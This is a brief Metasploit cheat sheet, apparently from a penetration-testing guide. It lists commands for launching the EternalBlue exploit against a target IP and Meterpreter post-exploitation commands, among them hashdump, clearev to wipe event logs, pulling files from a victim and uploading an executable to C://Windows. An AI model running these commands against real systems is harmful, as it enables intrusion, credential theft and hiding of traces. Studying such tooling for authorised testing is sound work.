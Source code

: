 ```
workspace -a <NEW_WORSKSPACE>
workspace <WORKSPACE_NAME>
workspace -d <WORKSPACE_NAME>
```

```
# Payload Options
search eternalblue
use 0
# ^^ specify the identifier
set payload <PAYLOAD_NAME>
set RHOSTS <TARGET_IP>
run
# or
exploit
```

**Meterpreter**



```
# meterpreter > <command>

background    #Switch from a Meterpreter session to the msfconsole command line 
cat
cd
checksum md5 /bin/bash
clearev
download Filename /root/****   #Download From victm machine to your machine 
edit
execute -f ifconfig
getenv
getenv PATH
getuid
hashdump
idletime
ifconfig
lpwd
ls
migrate
mkdir
ps
pwd
resource <file.txt>
rmdir
search -f *.txt
shell   #run a standard operating system shell 
sysinfo   #information about the victm Machine 
upload /****/exploit.exe C://Windows     #Upload from your machine to victm machine   
```

**Info Gathering & Enumeration**
